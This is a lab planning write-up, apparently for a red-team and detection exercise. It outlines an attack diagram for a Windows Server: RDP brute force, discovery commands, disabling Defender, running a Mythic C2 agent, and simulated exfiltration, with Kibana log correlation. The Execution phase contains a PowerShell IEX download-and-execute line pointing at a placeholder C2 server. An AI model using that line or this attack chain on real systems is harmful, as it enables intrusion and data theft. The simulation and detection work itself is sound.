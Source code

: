 
## 1. Introduction

Goal: Create an attack diagram that outlines the sequence of actions taken to compromise a target Windows Server, establish a C2 connection, and exfiltrate data. The diagram will be used as a visual plan for simulating and analyzing the attack.

Tool: draw.io (for creating the diagram)

---

## 2. Components of the Diagram

![https://www.drawio.com/assets/img/blog/threat-modelling-process-flow.png](https://www.drawio.com/assets/img/blog/threat-modelling-process-flow.png)

![https://www.lockheedmartin.com/content/dam/lockheed-martin/rms/photo/cyber/THE-CYBER-KILL-CHAIN-body.png.pc-adaptive.full.medium.png](https://www.lockheedmartin.com/content/dam/lockheed-martin/rms/photo/cyber/THE-CYBER-KILL-CHAIN-body.png.pc-adaptive.full.medium.png)

![https://www.dnsfilter.com/hubfs/Imported_Blog_Media/6138e35e0ef28036125430bd_C2-attack-servers-2.png](https://www.dnsfilter.com/hubfs/Imported_Blog_Media/6138e35e0ef28036125430bd_C2-attack-servers-2.png)


- **Attacker Laptop (Kali Linux)**
    
    - Color: Red
    - Role: Launch brute force and control the attack.
        
- **Windows Server (Target Machine)**
    
    - Role: System to be compromised via RDP brute force.
        
- **Mythic C2 Server**
    
    - Color: Red
    - Role: Command and control platform for managing the compromised machine.
        
- **Internet**
    
    - Role: Communication channel between attacker and target.
        
- **SSH Server (optional)**
    
    - Role: Potential future target.
        

---

## 3. Attack Phases

### Phase 1: Initial Access

- Method: RDP brute force attack from attacker’s Kali Linux machine.
- Target: Windows Server.
- Goal: Gain successful authentication into the target system.

`event.code: 4625 (Failed) event.code: 4624 (Success)`

---

### Phase 2: Discovery

- After gaining access, the attacker runs basic reconnaissance commands to learn about the system:
    
    `whoami ipconfig net user net group`
    
- Goal: Identify user permissions, network configuration, and system information.

---

### Phase 3: Defense Evasion

- The attacker disables Windows Defender to bypass security controls.
- Command executed within the RDP session.
- Purpose: Prevent security tools from blocking the next steps.
    

---

### Phase 4: Execution

- Using PowerShell, the attacker downloads and executes the Mythic agent from the Mythic C2 server:
    
    `IEX (New-Object Net.WebClient).DownloadString('http://<C2_SERVER>/agent.ps1')`
    
- Goal: Install the agent and prepare for C2 communication.
    

---

### Phase 5: Command and Control (C2)

- The agent establishes a persistent connection back to the Mythic C2 server.
    
- The attacker now has remote command execution and monitoring capabilities on the target machine.
    

---

### Phase 6: Exfiltration

- The attacker simulates data theft by downloading a file (e.g., `password.txt`) from the target machine’s Documents folder through the C2 channel.
    
- This phase completes the full attack chain from initial access to data exfiltration.
    

---

## 4. Final Attack Flow Summary

1. Attacker (Kali Linux) → Brute forces RDP credentials on Windows Server.
    
2. Attacker logs into Windows Server.
    
3. Attacker runs discovery commands to learn about the environment.
    
4. Attacker disables Windows Defender for evasion.
    
5. Attacker uses PowerShell to download and execute Mythic agent.
    
6. Mythic agent connects to C2 server.
    
7. Attacker downloads `password.txt` as simulated exfiltration.
    

---

## 5. Outcome and Next Steps

- This diagram serves as a structured attack plan for future red team simulations.
    
- The attack steps can later be correlated with log data in Kibana to analyze detection and response capabilities.
    
- In the upcoming steps, the Mythic server will be set up to establish and manage the C2 channel.
**Reference**
https://youtu.be/jv-qiugJGHg?si=ZhkVu0mDS1YYAhDu